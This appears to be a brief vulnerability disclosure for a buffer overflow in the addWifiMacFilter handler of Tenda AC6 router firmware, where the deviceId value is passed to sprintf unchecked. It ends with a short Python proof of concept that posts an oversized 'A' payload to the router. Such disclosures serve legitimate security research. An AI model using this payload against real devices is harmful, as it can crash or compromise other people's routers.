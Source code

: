 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/addWifiMacFilter

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html
## Analyse:


![](5.png)

get value from deviceId ,then call sprintf, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/addWifiMacFilter"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'deviceId': payload})
``` 
